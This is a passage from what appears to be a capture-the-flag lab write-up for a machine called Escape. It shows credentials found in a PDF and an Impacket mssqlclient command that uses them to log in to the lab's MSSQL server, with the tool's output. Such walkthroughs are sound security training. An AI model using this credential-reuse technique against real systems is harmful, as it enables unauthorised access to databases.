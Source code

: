 ![](/assets/Escape-SQL1.png)

Well, it looks like there is just a "mock" instance of the database on the DC and that it will be removed when `Tom` comes back from the vacation. On the second page of the PDf we even get credentials that allow us to log in to the `MSSQL`. If we're lucky, Tom is not back from the vacation yet and we can log in to the database.

![](/assets/Escape-SQL2.png)

We can use `Impacket MSSQL Client` to connect to the database.

```bash
➜  Escape python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel/PublicUser:GuestUserCantWrite1@sequel.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
```
